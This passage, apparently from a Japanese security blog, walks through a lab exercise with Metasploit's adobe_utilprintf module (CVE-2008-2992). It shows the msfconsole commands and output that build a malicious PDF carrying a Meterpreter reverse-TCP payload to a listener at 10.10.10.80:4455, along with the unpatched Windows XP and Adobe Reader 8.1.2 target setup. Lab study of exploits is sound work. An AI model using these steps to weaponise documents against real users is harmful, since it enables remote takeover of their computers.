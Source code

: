  
まずは、Kali Linux 上で PDF を生成。

 
```
msf > use exploit/windows/fileformat/adobe_utilprintf 
msf exploit(adobe_utilprintf) > set FILENAME CVE-2008-2992.pdf 
FILENAME => CVE-2008-2992.pdf 
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp 
msf exploit(adobe_utilprintf) > set LHOST 10.10.10.80 
LHOST => 10.10.10.80 
msf exploit(adobe_utilprintf) > set LPORT 4455 
LPORT => 4455 
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

   Name      Current Setting    Required  Description 
   ----      ---------------    --------  ----------- 
   FILENAME  CVE-2008-2992.pdf  yes       The file name.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description 
   ----      ---------------  --------  ----------- 
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none) 
   LHOST     10.10.10.80      yes       The listen address 
   LPORT     4455             yes       The listen port

Exploit target:

   Id  Name 
   --  ---- 
   0   Adobe Reader v8.1.2 (Windows XP SP3 English)

msf exploit(adobe_utilprintf) > run

[*] Creating 'CVE-2008-2992.pdf' file... 
[+] CVE-2008-2992.pdf stored at /root/.msf4/local/CVE-2008-2992.pdf

msf exploit(adobe_utilprintf) >
```
 
攻撃対象のコンピューターを用意し、生成された PDF をコピーします。

 
- OS: Windows XP SP3 (32bit) <br />
- 他の OS バージョンについては後述 <br />
- Windows Update は実行せず、他のパッチは無し (インストールしても結果は変わらないはず) 
- Adobe Reader 8.1.2 <br />
- [ftp://ftp.adobe.com/pub/adobe/reader/](ftp://ftp.adobe.com/pub/adobe/reader/) からダウンロード可能 

 
今回犠牲になる Adobe Reader 8.1.2 on Windows XP SP3。 <br />
![]({{site.assets_url}}2014-08-12-image10.png)

